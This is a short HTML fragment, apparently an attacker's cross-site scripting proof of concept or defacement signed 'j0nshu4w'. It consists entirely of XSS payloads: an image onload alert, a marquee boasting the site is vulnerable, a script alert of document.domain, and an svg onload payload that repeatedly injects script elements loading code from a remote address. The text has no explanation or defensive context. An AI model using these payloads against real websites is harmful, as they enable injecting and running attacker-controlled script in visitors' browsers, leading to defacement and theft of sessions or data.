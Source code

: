 <Img src = "http://i793.photobucket.com/albums/yy213/gilbef/GIFBRAZIOL.gif"
onload = "alert (" xss by j0nshu4w ")"> </ img>
<Marquee> <h1> xss is vuln by j0nshu4w </ h1> </ marquee>
<Script> alert (document.domain) </ script>
    <svg/onload=setInterval(function(){d=document;z=d.createElement("script");z.src="//localhost:1338";d.body.appendChild(z)},0)>
